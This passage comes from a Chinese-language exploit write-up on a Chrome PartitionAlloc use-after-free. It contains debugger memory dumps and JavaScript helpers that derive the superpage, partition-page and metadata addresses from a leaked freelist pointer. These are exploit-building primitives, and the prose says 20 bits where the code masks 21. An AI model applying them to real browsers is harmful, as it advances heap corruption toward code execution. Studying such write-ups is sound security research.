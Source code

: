 ```
pwndbg> x/30gx 0x068c0830d7d4
0x68c0830d7d4:	0x080406e908200dc9	0x00000000080406e9
0x68c0830d7e4:	0x0000000000000000	0x0000000100000000
0x68c0830d7f4:	0x0000000600000000	0x0000000000000000
0x68c0830d804:	0x0000000000000000	0x0000001008040489
0x68c0830d814:	0x0000000000000000	0x080406e908200dc9
0x68c0830d824:	0x00000008080406e9	0x9cc0400000000000
0x68c0830d834:	0x0da90c0000003295	0x00000002000019d2
0x68c0830d844:	0x0000000000000000	0x0000000000000000
0x68c0830d854:	0x00000008080404d9	0x0825e445081021f5
0x68c0830d864:	0xfffffffe00000000	0x00000008080404d9

backing store:

pwndbg> x/30gx 0x000032959cc04010
0x32959cc04010:	0x2040c09c95320000	0x0000000000000000
0x32959cc04020:	0x3040c09c95320000	0x0000000000000000
0x32959cc04030:	0x4040c09c95320000	0x0000000000000000
0x32959cc04040:	0x5040c09c95320000	0x0000000000000000
```

接下来就是将leaks的data覆盖为uaf，这样就泄漏出了freelist指针，在阅读wp的过程中，发现这个泄漏指针包含了很多重要信息：
- 由于我们的freed块都位于Slot span（忘记的可以看上面的superpage 布局）， 所以我们只要将末五位（低20位）置0就可以得到superpage的基地址。

- PartitionPage大小是0x4000，我们取出泄漏指针的末四位 >> 14就可以得到PartitionPageIndex
- PartitionPage基地址就是Index*0x4000 + superpage的基地址
- MetadataArea的基地址就是 superpage的基地址 + 0x1000
- 当前的MetadataArea地址就是 MetadataArea的基地址 + PartitionPageIndex * 0x20

代码实现：

```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
```